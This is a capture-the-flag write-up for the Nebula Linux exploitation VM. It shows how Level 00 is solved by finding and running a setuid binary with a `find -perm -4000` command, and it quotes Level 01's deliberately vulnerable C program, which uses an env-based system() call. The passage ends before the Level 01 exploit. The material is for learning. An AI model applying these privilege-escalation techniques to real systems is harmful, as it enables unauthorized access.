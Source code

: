 # Writeup for Nebula from exploit.education

Nebula from https://exploit.education/nebula/ is a VM and is a great place to get started for people new to Linux exploitation.

I'm running the nebula VM on VirtualBox in a 'Host-only Adapter' mode.

The username and password for each level will be of the form -

username - levelXX
\
password - levelXX

## Level 00

Level00's description :

> This level requires you to find a Set User ID program that will run as the “flag00” account. You could also find this by carefully looking in top level directories in / for suspicious looking directories.

Simply use the ```find``` command
``` bash
level00@nebula:~$ find / -perm -4000 -user flag00 2> /dev/null
/bin/.../flag00
/rofs/bin/.../flag00
```

Running the ```/bin/.../flag00```executable escalates us to the flag00 user

``` bash
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ id
uid=999(flag00) gid=1001(level00) groups=999(flag00),1001(level00)
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## Level 01

Level01's description :
> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

``` C
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```
